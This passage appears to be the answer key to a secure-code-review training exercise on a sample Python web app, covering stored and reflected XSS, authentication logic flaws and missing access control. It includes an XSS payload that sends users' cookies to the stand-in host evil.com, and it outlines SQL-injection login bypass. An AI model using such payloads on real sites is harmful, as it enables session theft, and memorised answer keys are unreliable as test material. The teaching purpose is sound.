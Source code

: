 ### 4.2 User Input Display Analysis

**XSS Vulnerability #2:**

- **Location:** `listFeedback` function in `user_management.py`
- **How processed:** Direct HTML writing: `f.write(f"{row[1]}\n")`
- **Why vulnerable:** **User feedback is written directly to HTML file without
  escaping, enabling stored XSS attacks**

### 4.3 XSS Attack Scenarios

1. **Template XSS Attack Scenario:** **Answer:** **Attacker could pass
   JavaScript in the `msg` parameter:**

   - **URL:** `/?msg=<script>alert('XSS')</script>`
   - **Result:** JavaScript executes in victim's browser
   - **Impact:** Session theft, malicious redirects, defacement

2. **Stored XSS Attack Scenario:** **Answer:** **Attacker submits malicious
   feedback:**
   - **Feedback:**
     `<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>`
   - **Result:** Every user viewing feedback page has their session stolen
   - **Impact:** Persistent attack affecting all users

---

## 📋 Exercise 5: Business Logic Security Review - ANSWERS

### 5.1 Authentication Logic Analysis

1. **Does the authentication logic check username AND password together?**
   **Answer:** ❌ **No, they are checked separately**

2. **What happens if an attacker uses different usernames for each check?**
   **Answer:** **Authentication bypass is possible. Attacker can:**

   - **Use legitimate username with SQL injection in password field**
   - **Use SQL injection in username field with any password**
   - **Mix valid user credentials to gain unauthorized access**

3. **Is there a timing attack vulnerability in the authentication process?**
   **Answer:** **YES - The authentication process takes longer when usernames
   exist vs. when they don't, revealing valid usernames to attackers.**

### 5.2 Access Control Review

1. **Are sensitive functions protected with authentication cheques?** **Answer:**
   ❌ **No, some routes are unprotected**

2. **Can users access functionality they shouldn't?** **Answer:** **YES - No
   proper session management or authorization cheques on routes**

### 5.3 Business Logic Vulnerabilities
